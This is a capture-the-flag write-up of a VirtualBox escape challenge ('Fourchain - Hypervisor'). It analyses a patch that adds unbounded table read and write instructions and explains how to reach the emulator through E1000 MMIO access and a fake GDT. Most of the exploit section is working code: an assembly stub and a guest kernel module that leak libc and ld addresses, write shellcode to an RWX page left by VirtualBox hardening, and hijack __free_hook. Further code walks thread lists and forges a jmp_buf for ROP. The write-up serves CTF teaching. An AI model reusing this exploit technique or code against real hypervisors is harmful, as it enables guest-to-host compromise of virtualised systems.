

# Fourchain - Hypervisor

**Authors**: [busdma](https://twitter.com/busdma), [gallileo](https://twitter.com/galli_leo_)

**Tags**: pwn, virtualbox

**Points**: 450

>Welcome to the Virtualbox World~~
>
>ssh -p 54321 vbox@104.197.76.244
>password: vbox
>
>Resources are limited, please work on local first.
>Author: Billy
>
>URLs
>https://storage.googleapis.com/hitconctf2022/hypervisor-575472edcd113e18e3939bd17c9416517f1646ec.zip

## Patch Analysis

The challenge author provided the following patch:

```diff
diff -Naur VirtualBox-6.1.40/src/VBox/VMM/VMMAll/IEMAllInstructions.cpp.h Chall/src/VBox/VMM/VMMAll/IEMAllInstructions.cpp.h
--- VirtualBox-6.1.40/src/VBox/VMM/VMMAll/IEMAllInstructions.cpp.h    2022-10-11 21:51:54.000000000 +0800
+++ Chall/src/VBox/VMM/VMMAll/IEMAllInstructions.cpp.h    2022-11-02 19:18:19.196674293 +0800
@@ -20,7 +20,7 @@
 *   Global Variables                                                           *
 *******************************************************************************/
 extern const PFNIEMOP g_apfnOneByteMap[256]; /* not static since we need to forward declare it. */
-
+static uint64_t Table[0x10];
 #ifdef _MSC_VER
 # pragma warning(push)
 # pragma warning(disable: 4702) /* Unreachable code like return in iemOp_Grp6_lldt. */
@@ -538,6 +538,40 @@
     return IEMOP_RAISE_INVALID_OPCODE();
 }
 
+FNIEMOP_DEF(iemOp_ReadTable)
+{
+    if (pVCpu->iem.s.enmCpuMode == IEMMODE_64BIT && pVCpu->iem.s.uCpl == 0 )
+    {
+        IEM_MC_BEGIN(0, 2);
+        IEM_MC_LOCAL(uint64_t, u64Idx);
+        IEM_MC_FETCH_GREG_U64(u64Idx, X86_GREG_xBX);
+        IEM_MC_LOCAL_CONST(uint64_t, u64Value,/*=*/ Table[u64Idx]);
+        IEM_MC_STORE_GREG_U64(X86_GREG_xAX, u64Value);
+        IEM_MC_ADVANCE_RIP();
+        IEM_MC_END();
+        return VINF_SUCCESS;
+    }
+    return IEMOP_RAISE_INVALID_OPCODE();
+}
+
+
+FNIEMOP_DEF(iemOp_WriteTable)
+{
+    if (pVCpu->iem.s.enmCpuMode == IEMMODE_64BIT && pVCpu->iem.s.uCpl == 0 )
+    {
+        IEM_MC_BEGIN(0, 2);
+        IEM_MC_LOCAL(uint64_t, u64Idx);
+        IEM_MC_FETCH_GREG_U64(u64Idx, X86_GREG_xBX);
+        IEM_MC_LOCAL(uint64_t, u64Value);
+        IEM_MC_FETCH_GREG_U64(u64Value, X86_GREG_xAX);
+        Table[u64Idx] = u64Value;
+        IEM_MC_ADVANCE_RIP();
+        IEM_MC_END();
+        return VINF_SUCCESS;
+    }
+    return IEMOP_RAISE_INVALID_OPCODE();
+}
+
 
 /** Invalid with RM byte . */
 FNIEMOPRM_DEF(iemOp_InvalidWithRM)
diff -Naur VirtualBox-6.1.40/src/VBox/VMM/VMMAll/IEMAllInstructionsTwoByte0f.cpp.h Chall/src/VBox/VMM/VMMAll/IEMAllInstructionsTwoByte0f.cpp.h
--- VirtualBox-6.1.40/src/VBox/VMM/VMMAll/IEMAllInstructionsTwoByte0f.cpp.h    2022-10-11 21:51:55.000000000 +0800
+++ Chall/src/VBox/VMM/VMMAll/IEMAllInstructionsTwoByte0f.cpp.h    2022-11-02 16:18:35.752320732 +0800
@@ -9539,9 +9539,9 @@
     /* 0x22 */  iemOp_mov_Cd_Rd,            iemOp_mov_Cd_Rd,            iemOp_mov_Cd_Rd,            iemOp_mov_Cd_Rd,
     /* 0x23 */  iemOp_mov_Dd_Rd,            iemOp_mov_Dd_Rd,            iemOp_mov_Dd_Rd,            iemOp_mov_Dd_Rd,
     /* 0x24 */  iemOp_mov_Rd_Td,            iemOp_mov_Rd_Td,            iemOp_mov_Rd_Td,            iemOp_mov_Rd_Td,
-    /* 0x25 */  iemOp_Invalid,              iemOp_Invalid,              iemOp_Invalid,              iemOp_Invalid,
+    /* 0x25 */  iemOp_ReadTable,            iemOp_Invalid,              iemOp_Invalid,              iemOp_Invalid,
     /* 0x26 */  iemOp_mov_Td_Rd,            iemOp_mov_Td_Rd,            iemOp_mov_Td_Rd,            iemOp_mov_Td_Rd,
-    /* 0x27 */  iemOp_Invalid,              iemOp_Invalid,              iemOp_Invalid,              iemOp_Invalid,
+    /* 0x27 */  iemOp_WriteTable,           iemOp_Invalid,              iemOp_Invalid,              iemOp_Invalid,
     /* 0x28 */  iemOp_movaps_Vps_Wps,       iemOp_movapd_Vpd_Wpd,       iemOp_InvalidNeedRM,        iemOp_InvalidNeedRM,
     /* 0x29 */  iemOp_movaps_Wps_Vps,       iemOp_movapd_Wpd_Vpd,       iemOp_InvalidNeedRM,        iemOp_InvalidNeedRM,
     /* 0x2a */  iemOp_cvtpi2ps_Vps_Qpi,     iemOp_cvtpi2pd_Vpd_Qpi,     iemOp_cvtsi2ss_Vss_Ey,      iemOp_cvtsi2sd_Vsd_Ey,
```

The patch adds a global uint64_t array `Table` and two new instructions to the two-byte IEM opcode map. 
The `ReadTable` instruction (opcode `0x0f 0x25`) reads a 64-bit value from the array (`RAX := Table[RBX];`). The `WriteTable` instruction (opcode `0x0f 0x27`) writes a 64-bit value to the array (`Table[RBX] := RAX;`). Both instructions are only allowed to execute in 64-bit mode and when CPL is 0 (ring zero/kernel).
The `Table` indexing is not bounded. This provides us with an **Out-Of-Bounds read and write primitive**, relative to `Table`.


## Of the VirtualBox Architecture

Unsurprisingly, VirtualBox is made up of many different components. This section contains a brief description of the components relevant to this writeup. VirtualBox aficionados can most likely skip this part.

Virtualbox defines several execution contexts, the main ones being Guest Context (GC) and Host Context (HC).



The core of VirtualBox (i.e. the VMM, Virtual Machine Monitor) runs in HC, under the host operating system. The guest, our entrypoint for this challenge, runs in the GC. Since the added instructions are valid only when the virtual CPU has a CPL of 0, a kernel module must be prepared and inserted into the guest kernel. This is feasible, we have quasi-complete control over the guest.

The HC VMM code has a kernel (R0) and a user (R3) part. This split can also be seen in the source code structure: the VMM folder has a VMMR0 and VMMR3 folder for the kernel and user part, respectively. The VMMAll folder contains code common to both.  
Execution of a VM starts in the R3 Execution Monitor (EM) component, with a call to the `EMR3ExecuteVM` function. The description of the EM component is interesting:

```
 * The Execution Monitor/Manager is responsible for running the VM, scheduling
 * the right kind of execution (Raw-mode, Hardware Assisted, Recompiled or
 * Interpreted), and keeping the CPU states in sync. The function
 * EMR3ExecuteVM() is the 'main-loop' of the VM, while each of the execution
 * modes has different inner loops (emR3RawExecute, emR3HmExecute, and
 * emR3RemExecute).
 *
 * The interpreted execution is only used to avoid switching between
 * raw-mode/hm and the recompiler when fielding virtualization traps/faults.
 * The interpretation is thus implemented as part of EM.
```

This tells us that there are multiple execution modes, one of which is called the Interpreted mode. Indeed, this corresponds to the IEM component, for which the patch adds the two new instructions. Unfortunately, the challenge runs on an Intel CPU with VMX support, meaning that our code is de facto being scheduled for Hardware Assisted execution, the HM component. This means that we somehow must coax the EM into scheduling our code for execution by the IEM.

Thus began a long and painful journey to ~~Mount Doom~~ IEM.


## Of The IEM: Arbitrary Instruction Execution

Eventually, the R3 EM code will schedule the guest code for execution with an IOCTL request to the R0 component. The R0 entry point function is `VMMR0EntryFast`, where the `VMMR0_DO_HM_RUN` will loop execution of the guest code until halted. 
After delving a bit deeper and greedier (for flags), we end up at `hmR0VmxRunGuestCodeNormal`. This function has another loop, in which `hmR0VmxRunGuest` is called to execute guest code in VT-x. More interestingly, the loop also handles VM exits. Upon VM exit, the current vCPU state is dispatched to the proper handler by indexing the global `g_apfnVMExitHandlers` function table.

At this point we assumed that getting to IEM would probably involve triggering a VM exit and some sorcery. Let's take a look at IEM's description:

```
 * The interpreted exeuction manager (IEM) is for executing short guest code
 * sequences that are causing too many exits / virtualization traps.  It will
 * also be used to interpret single instructions, thus replacing the selective
 * interpreters in EM and IOM.
```

According to the description, causing many VM exits could potentially reschedule us to IEM mode and execute a short sequence of instructions. This sounded perfect for our usecase. Let's take a look at the CPUID handler `hmR0VmxExitCpuid`:

```c
/**
 * VM-exit handler for CPUID (VMX_EXIT_CPUID). Unconditional VM-exit.
 */
HMVMX_EXIT_DECL hmR0VmxExitCpuid(PVMCPUCC pVCpu, PVMXTRANSIENT pVmxTransient)
{
    ...
     /*
     * Get the state we need and update the exit history entry.
     */
    ...

    VBOXSTRICTRC rcStrict;
    PCEMEXITREC pExitRec = EMHistoryUpdateFlagsAndTypeAndPC(pVCpu,
                                                            EMEXIT_MAKE_FT(EMEXIT_F_KIND_EM | EMEXIT_F_HM, EMEXITTYPE_CPUID),
                                                            pVCpu->cpum.GstCtx.rip + pVCpu->cpum.GstCtx.cs.u64Base);
    if (!pExitRec)
    {
        /*
         * Regular CPUID instruction execution.
         */
         ...
    }
    else
    {
        /*
         * Frequent exit or something needing probing.  Get state and call EMHistoryExec.
         */
        int rc2 = hmR0VmxImportGuestState(pVCpu, pVmcsInfo, HMVMX_CPUMCTX_EXTRN_ALL);
        AssertRCReturn(rc2, rc2);

        Log4(("CpuIdExit/%u: %04x:%08RX64: %#x/%#x -> EMHistoryExec\n",
              pVCpu->idCpu, pVCpu->cpum.GstCtx.cs.Sel, pVCpu->cpum.GstCtx.rip, pVCpu->cpum.GstCtx.eax, pVCpu->cpum.GstCtx.ecx));

        rcStrict = EMHistoryExec(pVCpu, pExitRec, 0);
        ...
    }
}
```

The `EMHistoryUpdateFlagsAndTypeAndPC` is doing the bookkeeping, `IEMExecForExits` is called when a certain threshold (256) of VM exits is reached. `IEMExecForExits` will internally execute a block (4096) of instructions in IEM by calling `IEMExecForExits`. This seemed very promising, consequently a lot of time was spent here trying to get this to work.  
Unfortunately, it seems that internally the `EMHistoryUpdateFlagsAndTypeAndPC` is effectively disabled when coming from HM mode. This spelled the end of our "optimizing into IEM" saga. Lots of other VM exit handlers were tested, however none of them yielded any success.

When trying to trace back under which other circumstances `iemExecOneInner` would be called, I noticed the following:

```c
        /*
         * Memory mapped I/O access - emulate the instruction.
         */
        case VINF_IOM_R3_MMIO_READ:
        case VINF_IOM_R3_MMIO_WRITE:
        case VINF_IOM_R3_MMIO_READ_WRITE:
            rc = emR3ExecuteInstruction(pVM, pVCpu, "MMIO");
            break;
```

For your information, when accessing MMIO the guest will VM exit with `VMX_EXIT_EPT_MISCONFIG` as reason. Sometimes, the kernel code will return to R3 code and return from `VMMR3HmRunGC` with return value `VINF_IOM_R3_MMIO_READ`. The MMIO access is then handled by `emR3HmHandleRC` (excerpt seen above), which will call `iemExecOne/iemExecOneInner`.

I then searched for `VINF_IOM_R3_MMIO_READ` in the codebase and found that it was used in the code for implementing MMIO for the E1000 network card, which was fortunately used for the VM:

```c
/**
 * Read handler for EEPROM/Flash Control/Data register.
 *
 * Lower 4 bits come from EEPROM device if EEPROM access has been granted.
 *
 * @returns VBox status code.
 *
 * @param   pThis       The device state structure.
 * @param   offset      Register offset in memory-mapped frame.
 * @param   index       Register index in register array.
 * @param   mask        Used to implement partial reads (8 and 16-bit).
 * @thread  EMT
 */
static int e1kRegReadEECD(PPDMDEVINS pDevIns, PE1KSTATE pThis, uint32_t offset, uint32_t index, uint32_t *pu32Value)
{
#ifdef IN_RING3
    uint32_t value = 0; /* Get rid of false positive in parfait. */
    int      rc = e1kRegReadDefault(pDevIns, pThis, offset, index, &value);
    if (RT_SUCCESS(rc))
    {
        if ((value & EECD_EE_GNT) || pThis->eChip == E1K_CHIP_82543GC)
        {
            /* Note: 82543GC does not need to request EEPROM access */
            /* Access to EEPROM granted -- get 4-wire bits to EEPROM device */
            STAM_PROFILE_ADV_START(&pThis->StatEEPROMRead, a);
            PE1KSTATECC pThisCC = PDMDEVINS_2_DATA_CC(pDevIns, PE1KSTATECC);
            value |= pThisCC->eeprom.read();
            STAM_PROFILE_ADV_STOP(&pThis->StatEEPROMRead, a);
        }
        *pu32Value = value;
    }

    return rc;
#else /* !IN_RING3 */
    RT_NOREF_PV(pDevIns); RT_NOREF_PV(pThis); RT_NOREF_PV(offset); RT_NOREF_PV(index); RT_NOREF_PV(pu32Value);
    return VINF_IOM_R3_MMIO_READ;
#endif /* !IN_RING3 */
}
```

In particular, it looks like if we are currently executing in R0 (which we are by default after a VM exit), then it would return `VINF_IOM_R3_MMIO_READ`, and hence return to R3 and execute the instruction responsible for the EECD MMIO read to be emulated.
The specific register which this function is a callback for, is at `+0x10` of the E1000 MMIO base.

Alone, this would have not helped much, since it turns out to still only emulate exactly one instruction.
However, we thought maybe now too many VM exits would lead to more instructions being emulated.
Unfortunately, we still could not get that part to work.

While scouring through the IEM code, the description of `iemExecOneInner` seemed interesting:

```c
/*
 * @return  Strict VBox status code.
 * @param   pVCpu       The cross context virtual CPU structure of the calling EMT.
 * @param   fExecuteInhibit     If set, execute the instruction following CLI,
 *                      POP SS and MOV SS,GR.
 * @param   pszFunction The calling function name.
 */
DECLINLINE(VBOXSTRICTRC) iemExecOneInner(PVMCPUCC pVCpu, bool fExecuteInhibit, const char *pszFunction)
```

If the `fExecuteInhibit` flag is set, the instruction following a `cli`, `pop ss` or `mov ss, reg` instruction is executed. What if we place our target instruction right after?  
By default, these instructions do not cause a VM exit, they are executed like other normal instructions in HM. Looking into the `mov ss, reg` implementation in IEM, it seemed that loading from memory is also supported:

```c
/**
 * @opcode      0x8e
 */
FNIEMOP_DEF(iemOp_mov_Sw_Ev)
{
    IEMOP_MNEMONIC(mov_Sw_Ev, "mov Sw,Ev");

    uint8_t bRm; IEM_OPCODE_GET_NEXT_U8(&bRm);
    ...

    /*
     * If rm is denoting a register, no more instruction bytes.
     */
    if ((bRm & X86_MODRM_MOD_MASK) == (3 << X86_MODRM_MOD_SHIFT))
    {
        ...
    }
    else
    {
        /*
         * We're loading the register from memory.  The access is word sized
         * regardless of operand size prefixes.
         */
        IEM_MC_BEGIN(2, 1);
        IEM_MC_ARG_CONST(uint8_t, iSRegArg, iSegReg, 0);
        IEM_MC_ARG(uint16_t,      u16Value,          1);
        IEM_MC_LOCAL(RTGCPTR, GCPtrEffDst);
        IEM_MC_CALC_RM_EFF_ADDR(GCPtrEffDst, bRm, 0);
        IEMOP_HLP_DONE_DECODING_NO_LOCK_PREFIX();
        IEM_MC_FETCH_MEM_U16(u16Value, pVCpu->iem.s.iEffSeg, GCPtrEffDst);
        IEM_MC_CALL_CIMPL_2(iemCImpl_load_SReg, iSRegArg, u16Value);
        IEM_MC_END();
    }
    return VINF_SUCCESS;
}
```

By combining all findings so far, it looked like we could finally trigger the custom IEM instructions!
If `mov ss, reg` was causing an MMIO access to the E1000 device at the offset of the EECD register, then it would cause the instruction to be emulated!
We can then place our target instruction immediately after `mov ss, reg` and it will also be emulated!
Some initial testing seemed to confirm this hypothesis, but it also seemed to immediately crash after the `mov ss, reg` instruction.
<!-- Furthermore, 
In some cases, loading from memory can cause a VM exit. For example, when reading from MMIO of a (virtual) device, VirtualBox has to handle the access by e.g. returning the correct value.   -->

The `iemCImpl_LoadSReg` function handles actually loading and parsing the descriptor we're moving into SS. As the value moved there seems to be actually checked for validity, we'll need to provide a valid value. This can be done either by controlling the value we load from MMIO somehow and having it be valid for SS, or by setting up a valid entry in the Global Descriptor Table (GDT).  
The value returned from reading the EECD register is `0x140`.
We first tried to look for another register that would have similar properties (i.e. return `VINF_IOM_R3_MMIO_READ`) and also we could write to, but could not find anything.
Hence, we decided to create a fake Global Descriptor Table Register which points at our own array of GDTs, where entry `0x140` was valid.

GDTR structure:


Segment Selector structure:


The segment selector's index is bit 3 through 15, so we shift our 0x140 right by 3 to get the index, which is 40. We then memcpy the old GDT entries to our own array and copy the one at the current SS index to index 40, which should do the trick.

Now that we've been enlightened about all this, it is possible to finally reach the vulnerable instructions in IEM.


## The Black Gate Opens

At last, we have arrived at exploitation.  
The first action item is to upgrade our current primitives to arbitrary read and write. We have full control over the 64-bit index, achieving arbitrary read and write is just a matter of leaking the address of `Table`.  
In order to get the address of `Table`, we simply leaked a pointer to a string in the VBoxVMM.so, calculate its load base and finally add the `Table` offset to it. 

While doing some debugging, we noticed there was a page mapped as RWX. To get RIP control, we leak `fgets` from the GOT and calculate the base of libc and ld (through `dl_find_dso` in libc's GOT). We then simply write shellcode to the RWX page and overwrite `__free_hook` in libc to eventually jump there and get code execution.

```nasm
.intel_syntax noprefix

; rdi = idx, rsi = mmio, rdx = curr_gdtr, rcx = fake_gdtr
.global read_table_asm
read_table_asm:
    push rbx
    sgdt [rdx]
    lgdt [rcx]
    mov rbx, rdi
    mov ss, [rsi]
    .byte 0xf, 0x25
    mov rbx, 0x18
    mov ss, rbx
    lgdt [rdx]
    pop rbx
    ret

; rdi = idx, rsi = mmio, rdx = curr_gdtr, rcx = fake_gdtr, r8 = val
.global write_table_asm
write_table_asm:
    push rbx
    sgdt [rdx]
    lgdt [rcx]
    mov rbx, rdi
    mov rax, r8
    mov ss, [rsi]
    .byte 0xf, 0x27
    mov rbx, 0x18
    mov ss, rbx
    lgdt [rdx]
    pop rbx
    ret
```

```c
#include <linux/module.h>	/* Needed by all modules */
#include <linux/kernel.h>	/* Needed for KERN_INFO */

#include <linux/types.h>
#include <linux/delay.h>

#include <linux/vmalloc.h>
#include <asm/io.h>
#include <asm/msr.h>
#include <asm/desc.h>
#include <stdalign.h>

#include "offsets.h"

#define KERN_WARN KERN_WARNING

typedef struct gdtr {
    uint16_t limit;
    uint64_t base;
} __attribute__((packed, aligned(1))) gdtr_t;

typedef uint64_t gdt_entry;

gdtr_t fake_gdtr = {};
gdt_entry fake_gdts[0x100];

uint64_t mmio_addr = 0;
static uint64_t table_addr = 0;
static uint64_t libc_base = 0;

extern uint64_t read_table_asm(uint64_t idx, uint64_t mmio, uint64_t curr_gdtr, uint64_t fake_gdtr);
extern uint64_t write_table_asm(uint64_t idx, uint64_t mmio, uint64_t curr_gdtr, uint64_t fake_gdtr, uint64_t val);

__attribute__((always_inline))
static inline uint64_t read_table(uint64_t idx)
{
    uint64_t ret;
    gdtr_t curr_gdtr = {};
    uint64_t curr_gdtr_ptr = (uint64_t)&curr_gdtr;
    uint64_t fake_ptr = (uint64_t)&fake_gdtr;
    ret = read_table_asm(idx, mmio_addr, curr_gdtr_ptr, fake_ptr);
    return ret;
}

__attribute__((always_inline))
static inline void write_table(uint64_t val, uint64_t idx)
{
    gdtr_t curr_gdtr = {};
    uint64_t curr_gdtr_ptr = (uint64_t)&curr_gdtr;
    uint64_t fake_ptr = (uint64_t)&fake_gdtr;
    (void)write_table_asm(idx, mmio_addr, curr_gdtr_ptr, fake_ptr, val);
}

__attribute__((always_inline))
static inline uint64_t rel_read64(uint64_t offset)
{
    return read_table(offset / 8);
}

__attribute__((always_inline))
static inline void rel_write64(uint64_t offset, uint64_t val)
{
    return write_table(val, offset / 8);
}


__attribute__((always_inline))
static inline uint64_t addr_to_offset(uint64_t addr)
{
    uint64_t offset = addr - table_addr;
    return offset;
}

__attribute__((always_inline))
static inline uint64_t arb_read64(uint64_t addr)
{
    uint64_t offset = addr_to_offset(addr);
    return rel_read64(offset);
}

__attribute__((always_inline))
static inline void arb_write64(uint64_t addr, uint64_t val)
{
    uint64_t offset = addr_to_offset(addr);
    rel_write64(offset, val);
}

__attribute__((always_inline))
static inline void arb_write(uint64_t addr, void *buf, size_t num)
{
    size_t i = 0;
    uint64_t *buf_vals = (uint64_t *)buf;
    for (i = 0; i < ((num+7) / 8); i++) {
        arb_write64(addr + i*8, buf_vals[i]);
    }
}

void pwn(void)
{
    printk(KERN_WARN "Entering pwn (0x%llx)\n", &pwn);

    const uint64_t str_table_off = str_addr_binary_off - table_binary_off;
    const uint64_t e1000_phys = 0xf0000000;

    uint8_t *e1000_virt = (uint8_t *)(ioremap(e1000_phys, 4096));
    volatile uint32_t *eeprom_addr = (uint32_t *)(e1000_virt+0x10);

    uint32_t init_val = *eeprom_addr;
    mmio_addr = (uint64_t)eeprom_addr;

    printk(KERN_WARN "new ss val: 0x%lx\n", init_val);

    gdtr_t curr_gdtr = {};

    asm volatile(
        "sgdt %0"
        : "=m"(curr_gdtr) :: "memory"
    );

    printk(KERN_WARN "curr gdtr: 0x%llx (0x%x)\n", curr_gdtr.base, curr_gdtr.limit);

    size_t curr_size = curr_gdtr.limit+1;
    memset(fake_gdts, 0, sizeof(fake_gdts));
    memcpy(fake_gdts, curr_gdtr.base, curr_size);

    uint32_t new_ss_idx = init_val / 8;

    fake_gdtr.base = (uint64_t)fake_gdts;
    fake_gdtr.limit = (new_ss_idx+1) * 8 - 1;
    uint32_t old_ss_idx = 0x18 / 8;
    fake_gdts[new_ss_idx] = fake_gdts[old_ss_idx];
    printk(KERN_WARN "fake gdtr: 0x%llx (0x%x)\n", fake_gdtr.base, fake_gdtr.limit);

    uint64_t fgets_addr = rel_read64(fgets_got_off - table_binary_off);
    libc_base = fgets_addr - fgets_libc_off;
    uint64_t free_hook_addr = libc_base + freehook_libc_off;
    printk(KERN_WARN "fgets @ 0x%llx\n", fgets_addr);
    printk(KERN_WARN "libc @ 0x%llx\n", libc_base);
    printk(KERN_WARN "free_hook @ 0x%llx\n", free_hook_addr);

    uint64_t str_addr = rel_read64(str_table_off);
    uint64_t binary_addr = str_addr - str_binary_off;
    table_addr = binary_addr + table_binary_off;
    printk(KERN_WARN "str @ 0x%llx\n", str_addr);
    printk(KERN_WARN "binary @ 0x%llx\n", binary_addr);
    printk(KERN_WARN "table @ 0x%llx\n", table_addr);

    uint64_t dl_find_dso_addr = arb_read64(libc_base + dl_find_dso_got);
    uint64_t ld_base = dl_find_dso_addr - dl_find_dso_off;
    uint64_t rwx_addr = rwx_offset + ld_base;
    printk(KERN_WARN "dl_find_dso_addr @ 0x%llx\n", dl_find_dso_addr);
    printk(KERN_WARN "ld.so @ 0x%llx\n", ld_base);
    printk(KERN_WARN "rwx @ 0x%llx\n", rwx_addr);

    arb_write(rwx_addr, shellcode_pwn, sizeof(shellcode_pwn));
    printk(KERN_WARN "wrote shellcode to rwx region!\n");

    msleep(1000);

    arb_write64(free_hook_addr, rwx_addr);
    return;
}

int init_module(void)
{
    pwn();

	return 0;
}

void cleanup_module(void)
{
}
```

...

But why is there an RWX page at all? At a first glance, this only seemed to happen with the build used by the challenge authors. In what way does their build differ from our local testing builds, that it would map a page as RWX?  
The difference is the `--disable-hardening` flag we used, to make running the VirtualBox binaries from a location different than `/opt/VirtualBox` possible. When this flag is not specified, VirtualBox will call `SUPR3HardenedMain` from `main`.
```
 * This function will perform the integrity checks of the VirtualBox
 * installation, open the support driver, open the root service (later),
 * and load the DLL corresponding to \a pszProgName and execute its main
 * function.
```

According to its description, the hardened `main` will do some integrity checks. Eventually, the code will call `supR3HardenedPosixInit`:
```c
DECLHIDDEN(void) supR3HardenedPosixInit(void)
{
    for (unsigned i = 0; i < RT_ELEMENTS(g_aHooks); i++)
    {
        PCSUPHARDENEDPOSIXHOOK pHook = &g_aHooks[i];
        int rc = supR3HardenedMainPosixHookOne(pHook->pszSymbol, pHook->pfnHook, pHook->ppfnRealResume, pHook->pfnResolve);
        if (RT_FAILURE(rc))
            supR3HardenedFatalMsg("supR3HardenedPosixInit", kSupInitOp_Integrity, rc,
                                  "Failed to hook the %s interface", pHook->pszSymbol);
    }
}
```

The only function registered to be hooked in `g_aHooks` is `dlopen`. The hooking is implemented in `supR3HardenedMainPosixHookOne`, `dlopen` is patched to jump to a callback function instead. Subsequently, a page with RWX permissions is allocated for the hook's trampoline. The permissions for this page are not restricted after everything is in place.

This is a nice example of how a security feature, in this case restricting which libraries are allowed to be loaded, can result in being considerably more easy to exploit.

## The Scouring of the Threads

Before we noticed the RWX page, we went down a deep rabbit hole of how to gain shellcode execution in VirtualBox.
Although we ended up not finishing this part during the CTF, it can be interesting, in case VirtualBox ever ends up fixing the hooked page.

Since we had arbitrary read/write, it should have been relatively easy to get full code execution.
However, unlike a normal pwn challenge, simply overwriting `__free_hook` with `system`, then causing `free("/bin/sh")` would not be so easy.
It seemed very difficult if not straight up impossible to control the contents of any allocation.
So while it would be easy to get RIP control (e.g. `__free_hook` or any GOT symbol), it would be hard to gain meaningful control, as none of the other registers would likely have any control.
At this point, we noticed that `VBoxVMM.so` imported `setjmp` and `longjmp`.
It seems that there is a pointer to a `jmp_buf` inside the virtual CPU struct that is filled by `setjmp` at the beginning of `IEMExecLots` or `iemExecOneInner`.
Our plan was, to modify the pointer to `jmp_buf` to point to memory we control, then cause the `longjmp` to be hit.
This way, we could control both RIP and RSP, allowing us to ROP!

Naively, we thought that the virtual CPU struct was at a fixed offset from libc.
Using that, we managed to overwrite the pointer to `jmp_buf` and then we tried to cause the `longjmp`.
It seemed a simple `mov $0, (0)` (i.e. causing a fault) would be enough.
Currently, we are only executing at most two instructions with IEM.
However, the `jmp_buf` pointer was reset at the beginning of every `iemExecOneInner`.
Therefore, we needed to be able to cause multiple instructions (of our choosing) to be emulated with IEM.
Thankfully, the global VM struct has a flag called `fIemExecutesAll` that causes all instructions to be emulated.
Hence, we simply write `1` to that flag and the next time we enter IEM, we will not leave it again.

With this, we finally managed to trigger the call to `longjmp` with the first argument (i.e. the pointer to `jmp_buf`) controlled by us.
However, we then encountered the next roadblock. With version `2.31` of glibc, it seems that RIP, RSP and RBP of the `jmp_buf` struct are "encrypted" with a secret value.
Fortunately, this value is stored in the TLS section and since it is at a constant offset from libc, we were able to just read the value.
Finally, we managed to get RIP and RSP control, allowing us to ROP.
We built a ROP chain that would call `mprotect` to change a rw memory region (which we previously filled with shellcode) to rwx.

Unfortunately, when we tried to run the full exploit, we noticed that the address of the virtual CPU struct was not actually at a fixed offset from libc.
During the CTF, it was around this point where we noticed the existing rwx section and hence stopped pursuing this exploitation path.
Still, how could you proceed to exploit this reliably?
First we have to find a way to reliably get a pointer to the virtual CPU struct.
By reading through the code, we noticed that the emulation thread would store a pointer to the virtual CPU struct in its TLS section.
Therefore, we had to find a way to leak the TLS address of the emulation thread.
Scouring glibc, we found out that there is a global linked list of all threads created by `libpthread`.
Furthermore, the wrappers around `libpthread` in use by VirtualBox, would save the name of the thread in an allocation, which was findable by reading the `arg` field of the `struct pthread`.
Combining all of this, we were able to iterate through all threads and find the ones responsible for emulating a virtual CPU:

```c
void pwn(void)
{
    ...

    uint64_t pthread_freeres_addr = arb_read64(libc_base + libpthread_got);
    print_addr(pthread_freeres_addr);

    uint64_t pthread_base = pthread_freeres_addr - libpthread_off;
    print_addr(pthread_base);

    uint64_t stack_used = pthread_base + stack_used_off;
    print_addr(stack_used);

    const uint64_t start_routine_off = 1600;
    const uint64_t fn_cookie_off = 0x30;
    const uint64_t list_off = 704;
    const uint64_t tid_off = 720;
    const uint64_t arg_off = 1608;
    const uint64_t name_off = 0x8e0;

    uint64_t tls_bases[2] = {0, 0};

    printk(KERN_WARN "Iterating over all threads...\n");
    uint64_t curr_list = arb_read64(stack_used);

    while (curr_list != stack_used) {
        uint64_t thread_ptr = curr_list - list_off;
        uint64_t tid = arb_read64(thread_ptr + tid_off) & 0xffffffff;
        uint64_t start_routine = arb_read64(thread_ptr + start_routine_off);
        uint64_t next_list = arb_read64(curr_list);
        uint64_t arg = arb_read64(thread_ptr + arg_off);
        uint64_t name = arb_read64(arg + name_off);
        printk(KERN_WARN "Thread %d @ 0x%llx, start @ 0x%llx (0x%llx), next @ 0x%llx\n", tid, thread_ptr, start_routine, arg, next_list);
        if (name == 0x0000302d544d45) {
            // EMT-0
            tls_bases[0] = thread_ptr;
            printk(KERN_WARN "This was EMT-0!\n\n");
        }
        else if (name == 0x0000312d544d45) {
            // EMT-1
            tls_bases[1] = thread_ptr;
            printk(KERN_WARN "This was EMT-1!\n\n");
        }
        curr_list = next_list;
    }

    ...
}
```

We can then follow some pointers and get some more of them:

```c
uint64_t get_vcpu_addr(uint64_t tls_base) {
     uint64_t pUVCpu_addr = arb_read64(tls_base + 0x358);

    print_addr(pUVCpu_addr);

    uint64_t pUVM_addr = arb_read64(pUVCpu_addr);
    uint64_t UVM_magic = arb_read64(pUVM_addr);
    print_addr(UVM_magic);
    uint64_t pVM_addr = arb_read64(pUVCpu_addr + 8);
    uint64_t pVCpu_addr = arb_read64(pUVCpu_addr + 16);

    print_addr(pUVM_addr);
    print_addr(pVM_addr);
    print_addr(pVCpu_addr);

    uint64_t vcpu_addr = pVCpu_addr;

    printk(KERN_WARN "Found vcpu @ 0x%llx\n", vcpu_addr);
    return vcpu_addr;
}

...

void pwn(void)
{
    ...

    uint64_t vcpu_addr = get_vcpu_addr(tls_bases[0]);
    uint64_t vcpu2_addr = get_vcpu_addr(tls_bases[1]);

    ...
}
```

Next we prepare our `jmp_buf`, the ROP chain and shellcode:

```c
void pwn(void)
{
    ...

    uint64_t writable_memory = vcpu_addr - 0x2000;
    print_addr(writable_memory);
    jmp_buf_addr = writable_memory;
    uint64_t fake_stack = writable_memory + 0x100;
    uint64_t shellcode_addr = writable_memory + 0x1000;

